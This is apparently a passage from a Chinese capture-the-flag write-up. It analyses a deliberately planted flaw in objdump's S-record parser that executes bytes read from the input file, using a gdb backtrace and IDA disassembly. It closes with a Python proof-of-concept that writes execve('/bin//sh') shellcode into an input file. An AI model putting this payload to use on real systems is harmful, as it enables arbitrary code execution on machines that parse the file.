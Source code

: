 coredump 了，直接调试起来：

```shell
gdb objdump core
```

可以看到是在 `srec_scan_helper` 下面崩溃了：

```
pwndbg> where
#0  0x00007ffd671b3d80 in ?? ()
#1  0x000055a0dccf58b5 in srec_scan_helper (abfd=0x55a0ddba0630) at ../../bfd/srec.c:317
#2  0x000055a0dccf6341 in srec_scan (abfd=0x55a0ddba0630) at ../../bfd/srec.c:598
#3  0x000055a0dccf66cb in srec_object_p (abfd=0x55a0ddba0630) at ../../bfd/srec.c:693
#4  0x000055a0dcce96b9 in bfd_check_format_matches (abfd=0x55a0ddba0630, format=bfd_object, matching=0x7ffd671b4140) at ../../bfd/format.c:343
#5  0x000055a0dcc66039 in display_object_bfd (abfd=0x55a0ddba0630) at ../../binutils/objdump.c:5058
#6  0x000055a0dcc6628a in display_any_bfd (file=0x55a0ddba0630, level=0) at ../../binutils/objdump.c:5150
#7  0x000055a0dcc66304 in display_file (filename=0x7ffd671b4a56 "fuzz_out/crashes/id:000000,sig:04,src:000157,op:flip1,pos:1", target=0x0, last_file=true) at ../../binutils/objdump.c:5171
#8  0x000055a0dcc66d7a in main (argc=3, argv=0x7ffd671b4318) at ../../binutils/objdump.c:5521
#9  0x00007f6aa2881bf7 in __libc_start_main (main=0x55a0dcc66324 <main>, argc=3, argv=0x7ffd671b4318, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7ffd671b4308) at ../csu/libc-start.c:310
#10 0x000055a0dcc5afbe in _start ()
```

然后 ida 启动！找到 `srec_scan`，objdump 里面所有的符号信息都保留了。然后 F5 大法！

![ida-decompliation-failure](./img/ida-decompliation-failure.png)

ida 分析失败了，但是汇编长度不长，可以容易地分析出来，这个函数实际上是执行了一直从 `srec_get_byte` 这个函数读取一个字符出来，保存到 `buf` 变量里面，然后读取到 -1 的时候就跳出来，以 buf 数组进行了 shellcode 到调用。

容易猜想到这个是从文件里面读取到的 shellcode，然后用 gdb 调进去可以知道是从上面的 `ff ff` 的内容开始读取的，因此，以 `5331 3030 2d30` 为开始，后面为 shellcode 即可。

生成一下：

```python
shellcode = [
    0x6a, 0x42, 0x58, 0xfe, 0xc4, 0x48, 0x99, 0x52, 0x48, 0xbf,
    0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x57, 0x54,
    0x5e, 0x49, 0x89, 0xd0, 0x49, 0x89, 0xd2, 0x0f, 0x05
]
data_prefix = '533130302d30'

data = bytes.fromhex(data_prefix)

data += bytes(shellcode)
print(data)

with open('objdump_poc_test', 'wb') as f:
    f.write(data)
```
